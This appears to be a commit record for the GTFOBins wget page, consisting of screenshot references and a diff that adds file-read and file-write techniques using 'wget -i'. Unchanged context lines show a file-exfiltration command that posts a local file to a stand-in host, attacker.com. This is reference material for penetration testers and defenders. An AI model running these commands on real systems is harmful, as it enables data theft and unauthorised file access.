

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/wget.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
add file-read/write

```diff
--- a/_gtfobins/wget.md
+++ b/_gtfobins/wget.md
@@ -6,6 +6,18 @@ functions:
         URL=http://attacker.com/
         LFILE=file_to_send
         wget --post-file=$LFILE $URL
+  file-read:
+    - description: output the file as an error.
+      code: |
+        LFILE=file-to-read
+        wget -i $LFILE
+  file-write:
+    - description: write data to a file.
+      code: |
+        LFILE=file-to-write
+        TF=$(mktemp)
+        echo DATA > $TF
+        wget -i $TF -o $LFILE
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
```
